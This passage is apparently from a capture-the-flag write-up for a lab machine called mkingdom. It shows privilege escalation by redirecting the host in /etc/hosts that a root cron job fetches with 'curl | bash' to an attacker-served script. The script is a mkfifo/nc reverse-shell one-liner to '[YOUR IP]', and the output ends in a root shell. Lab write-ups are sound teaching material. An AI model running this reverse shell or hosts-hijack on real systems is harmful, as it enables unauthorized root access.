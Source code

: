 ```bash
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
[...]
2024/06/22 16:51:01 CMD: UID=0     PID=3193   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
[...]
```
Running pspy reveals that there is a process that curls to mkingdom.thm:85/app/castle/application/counter.sh and pipes the output to bash.


### Gaining Root Access

Due to the permissions of `/var/www/html/app/castle/application/counter.sh`, you can't edit this file directly. However, you can change the IP address for `mkingdom.thm` in /etc/hosts to redirect it to your own machine. Host a malicious script at the same endpoint and set up an HTTP server on port 85 to serve the reverse shell payload.

```bash
mario@mkingdom:~$ cat /var/www/html/app/castle/application/counter.sh 
#!/bin/bash
echo "There are $(ls -laR /var/www/html/app/castle/ | wc -l) folder and files in TheCastleApp in - - - - > $(date)."

mario@mkingdom:~$ cat /etc/hosts
[...]
127.0.1.1	mkingdom.thm
[...]
```

In your machine:

```bash
$ cat app/castle/application/counter.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [YOUR IP] 4445 >/tmp/f


$ sudo python3 -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
10.10.56.103 - - [23/Jun/2024 00:29:02] "GET /app/castle/application/counter.sh HTTP/1.1" 200 -
```

After one minute, a shell will be spawned with root access.

```bash
% nc -nvlp 4445  
Connection from 10.10.56.103:58790
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# head /root/root.txt
[REDACTED]
```